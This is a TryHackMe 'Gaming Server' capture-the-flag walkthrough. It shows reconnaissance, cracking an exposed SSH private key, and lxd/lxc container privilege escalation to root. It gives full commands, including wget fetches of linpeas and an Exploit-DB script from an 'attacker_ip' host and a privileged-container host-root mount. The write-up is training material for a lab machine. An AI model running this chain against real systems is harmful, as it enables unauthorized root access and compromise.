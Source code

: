 ```yaml
---
title: Try Hack Me - Gaming Server
date: 2021-01-01 16:32 +0300
categories: [Try Hack Me]
<! --tags: [linux,lxd privilege escalation]     # TAG names should always be lowercase -->
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- LXC or Linux Container

# Nmap

Start scanning!

<pre class="highlighter-rouge highlight">
Nmap scan report for 10.10.206.197
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/25%OT=22%CT=1%CU=34225%PV=Y%DS=2%DC=I%G=Y%TM=5FE63E
OS:D0%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=102%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.87 seconds
</pre>

Let's check the web page.

# Gobuster

<pre>
gobuster dir -u http://10.10.206.197/ -w /opt/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.206.197/
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
			Starting gobuster
===============================================================
/uploads (Status: 301)
/secret (Status: 301)
</pre>

I found hidden directory <code class="language-plaintext highlighter-rouge">/uploads</code> and <code class="language-plaintext highlighter-rouge">/secret</code>

# Web Page

If we open the hidden directory <code class="language-plaintext highlighter-rouge">/uploads</code>, we will see

<img src="/assets/img/gamingserver_img/uploads.jpg">

The file name <code class="language-plaintext highlighter-rouge">dict.lst</code> soundes like we need to brute force something.
So I download it.

If we open the hidden directory <code class="language-plaintext highlighter-rouge">/secret</code>, we will see

<img src="/assets/img/gamingserver_img/secret.jpg">

After openning <code class="language-plaintext highlighter-rouge">secretKey</code> file

<img src="/assets/img/gamingserver_img/secretkey.jpg">

It is RSA private key. So download and crack it!

# John The Ripper

This link helped me with John and cracking password with RSA private key <a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a>

For brute forcing use <code class="language-plaintext highlighter-rouge">dict.lst</code> that we found before.

# Connect to SSH
We got the password after John. It's time to connect to SSH.

Change permission 
<pre> chmod 600 id_rsa </pre>
Connect 
<pre>ssh -i id_rsa john@10.10.206.197</pre>

Now you can read User.txt

<img src="/assets/img/gamingserver_img/userflag.jpg">

# Privilage Escalation
Anh here i got stuck.. I tried to find <code class="language-plaintext highlighter-rouge">suid</code> files, but it wasn't the solution. And I found <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite">Linpeas</a>. It's really amazing thing! These tools search for possible local privilege escalation paths that you could exploit and print them to you with nice colors so you can recognize the misconfigurations easily. 

We must run this script on victim machine. And our actions are:

Create a python server in the folder where we have our <code class="language-plaintext highlighter-rouge">Linpeas</code> script stored

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

Download the script on the victim machine

<pre>*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh</pre>

Get the access permissions

<pre>
chmod +x linpeas.sh
./linpeas.sh</pre>

You know...The output was huge! It was so lot of details... I'll show you a part

<img src="/assets/img/gamingserver_img/linpeas.jpg">

I tried to something with sudo and I know that it doesn't help. So i googled <code class="language-plaintext highlighter-rouge">lxd</code>. And I found an <a href="https://www.hackingarticles.in/lxd-privilege-escalation/">article</a> which showed how to get root with <code class="language-plaintext highlighter-rouge">lxd</code>.

Download the build alpine from GitHub
<pre>
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine</pre>

After that we will get the tar.gz file which we must send to victim machine like we did it with <code class="language-plaintext highlighter-rouge">linpeas.sh</code>

Create a python server 

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

I moved to <code class="language-plaintext highlighter-rouge">/tmp</code> folder and download the script on the victim machine.

<pre>cd /tmp
*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20201225_2324.tar.gz</pre>

And typed/copied following commands

<pre>
lxc image import ./alpine-v3.12-x86_64-20201225_2324.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
</pre>

Now you are root!

<pre>
mnt/root/root
ls
root.txt
cat root.txt
</pre>

<img src="/assets/img/gamingserver_img/root_flag.jpg">

Your also can get root using the <a href="https://www.exploit-db.com/exploits/46978">report</a> from <code class="language-plaintext highlighter-rouge">Exploit Database</code>

Step 1: Download build-alpine

<pre>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine</pre>

Step 2: Build alpine (as root user)

<pre>bash build-alpine</pre>

Step 3: Create an <code class="language-plaintext highlighter-rouge">.sh</code> file with code on <a href="https://www.exploit-db.com/exploits/46978">Exploit Database</a> website. Move <code class="language-plaintext highlighter-rouge">tar.gz</code> and <code class="language-plaintext highlighter-rouge">exploit.sh</code> files to victim machine. Run this script and you will get root.

Create a python server 

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

I moved to <code class="language-plaintext highlighter-rouge">/tmp</code> folder and download the script on the victim machine.

<pre>
*VICTIM MACHINE*
cd /tmp 
wget attacker_ip:8000/alpine-v3.12-x86_64-20201225_2324.tar.gz
wget attacker_ip:8000/exploit.sh
chmod +x exploit.sh
./exploit.sh -f alpine-v3.12-x86_64-20201225_2324.tar.gz
</pre>

Step 4: Once inside the container, navigate to <code class="language-plaintext highlighter-rouge">/mnt/root</code> to see all resources from the host machine

# Userful for me references

<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>
<div><a href="https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/">Log in with an SSH private key on Linux and macOS</a></div>
<div><a href="https://www.hackingarticles.in/lxd-privilege-escalation/">Lxd Privilege Escalation</a></div>
<div><a href="https://www.exploit-db.com/exploits/46978">Ubuntu 18.04 - 'lxd' Privilege Escalation </a></div>
